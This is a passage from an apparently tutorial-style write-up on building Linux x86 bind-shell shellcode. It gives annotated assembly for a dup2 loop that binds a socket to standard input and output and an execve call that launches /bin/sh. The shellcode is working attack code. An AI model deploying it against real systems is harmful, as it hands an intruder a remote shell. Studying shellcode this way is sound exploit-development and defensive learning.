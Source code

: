 This can be achieved with the syscall "dup2(sockfd,(stderr,stdout,stdin))".

In assmebly that looks like this:
```
; [+] dup2(): replacing accept fd with stdin, stdout, stderr fd's: (0x2,0x1,0x0)
        ; int dup2(int oldfd, int newfd);
        ; EAX = dup2
        ; EBX = acceptfd
        ; ECX = (0x2,0x1,0x0)-1) decrementing loop
        xor ebx,ebx     ;
        mov ebx,eax     ; After accept connection, save acceptfd to EBX (SYS_ACCEPT-ACCEPTFD)   
        xor ecx,ecx     ; 
        mov cl,0x2      ; loop counter for dup2. decrementing loop will look like: (0x2,0x1,0x00)
        dup2_loop:
        push   0x3f     ; using push/pop this time for fun. same as using mov eax,0x3f
        pop    eax      ; setting EAX to dup2() syscall                                         :       [dup2 --> REF8]
        int    0x80     ; [*] Calling: dup2(acceptFD, (0x2,0x1,0x0))
        dec    ecx      ; decrementing loop counter for each iteration
        jns    dup2_loop;  loop up to dup2_loop if not sign (If ECX is positive (0,1,2) then loop, else if negative (0,-1 etc) then continue down)
```

## Our shell

We've got all our pieces in place now, all we need is to execute a shell on connection! 

This can be achieved with the syscall "execve(/bin//sh0x00)".

I think a nice simple "/bin/sh" will work perfectly for our needs.

In assmebly that looks like this:

```
ExecveShell:
        ; [+] execve(): executing /bin//sh      
        ; int execve(const char *pathname, char *const argv[], char *const envp[])
        ; EAX = execve
        ; EBX = /bin//sh
        ; ECX = args followed by 0x00
        xor    eax,eax  ;
        mov    al,11    ; setting EAX to execve syscall
        xor    ebx,ebx  ;
        push   ebx      ; execve requires NULLBYTE after arguments (0x00)                       :       [execve --> REF9]
        push   0x68732f2f ; sh//
        push   0x6e69622f ; nib/ - Pushing /bin//sh onto stack in reverse for EBX               :       [execve --> REF9]
        mov    ebx,esp  ; setting EBX to address of /bin//sh
        xor    ecx,ecx
        xor    esi,esi
        int    0x80     ; [*] Calling: execve(/bin//sh0x00)
```
